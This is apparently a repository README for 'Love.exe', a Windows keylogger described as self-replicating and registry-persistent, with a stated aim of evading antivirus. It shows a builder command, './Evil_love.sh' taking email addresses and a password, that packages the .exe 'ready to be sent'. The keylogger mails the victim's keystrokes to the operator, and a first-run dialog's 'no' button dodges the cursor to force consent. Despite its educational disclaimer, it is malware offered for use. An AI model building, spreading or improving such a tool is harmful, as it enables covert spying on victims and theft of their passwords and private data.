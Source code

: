 
# Love.exe

-  !! I am not responsible for the misuse of Love.exe, I did it for educational purposes ¡¡


- Love is a keylogger virus that self-replicates in the system and implants itself in the registry to resume its operation when the computer is turned on. The idea in the future is to become invisible to the Windows antivirus. Thanks to Evil_love.sh we can configure this file of raw love and prepare it to be sent.

	![[Pasted image /imagenes/20231119200113.png]]

- so...

		./Evil_love.sh emitter_example@gmail.com receiver_example@gmail.com passwordexampple$

	![[Pasted image imagenes/20231119195552.png]]

- The result here is that the .exe file was created ready to be sent, when the keylogger is working you will receive a text file with all the victim's keystrokes in the email that you set as the recipient, something similar to this:

	![[Pasted image imagenes/20231119212058.png]]

- When you start Love.exe for the first time, the following window appears whose "no" button is impossible to press since it escapes the cursor. When you press "yes" the keylogger starts, this window is only shown the first time the virus starts , after that it is not shown again:

	![[Pasted image imagenes/20231119212545.png]]

